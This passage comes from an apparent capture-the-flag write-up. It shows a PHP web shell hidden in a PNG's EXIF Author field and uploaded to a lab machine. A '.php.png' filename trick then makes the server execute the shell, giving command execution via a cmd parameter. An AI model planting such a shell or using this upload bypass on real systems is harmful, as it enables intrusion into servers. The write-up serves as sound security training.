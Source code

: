 If we check the metadata of our new image, we can see the web shell hiding in the `Author` field as expected!
{% highlight none linenos %}
kali@kali:/tmp/x$ @@exiftool evilHackerCat.png@@
ExifTool Version Number         : 12.10
File Name                       : evilHackerCat.png
Directory                       : .
File Size                       : 338 kB
File Modification Date/Time     : 2022:03:04 10:36:29-05:00
File Access Date/Time           : 2022:03:04 10:36:29-05:00
File Inode Change Date/Time     : 2022:03:04 10:36:29-05:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 601
Image Height                    : 398
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8 8
@@@Author@@@                          : @@@<?php system($_REQUEST[cmd]); ?>@@@
Image Size                      : 601x398
Megapixels                      : 0.239
{% endhighlight %}

![uploadEvil](/assets/{{ imgDir }}/uploadEvil.png)

If we go back to the upload page and try to reupload it, we can see that the web application accepts the image. However, if we visit [http://10.10.10.185/images/uploads/evilHackerCat.png](http://10.10.10.185/images/uploads/evilHackerCat.png) and inspect the response in Burp Suite, we discover that the web application did not execute our PHP code.

![noRCE](/assets/{{ imgDir }}/noRCE.png)

After playing around with different file extensions and file extension combinations, it is possible to discover that images which include the string ".php" anywhere in the filename, are interpreted as PHP code. We can execute `mv evilHackerCat.png evilHackerCat.php.png` to include ".php" in the filename of our malicious image and thus trick the web server into believing that it is a PHP file. After renaming the file and uploading it, navigating to [http://10.10.10.185/images/uploads/evilHackerCat.php.png](http://10.10.10.185/images/uploads/evilHackerCat.php.png) does no longer show us the PHP code, indicating that it is being executed!

![uploadEvil2](/assets/{{ imgDir }}/uploadEvil2.png)
![RCE](/assets/{{ imgDir }}/RCE.png)

If we try to execute a command by navigating to [http://10.10.10.185/images/uploads/evilHackerCat.php.png?cmd=whoami](http://10.10.10.185/images/uploads/evilHackerCat.php.png?cmd=whoami), we can indeed see that we have code execution on the target!
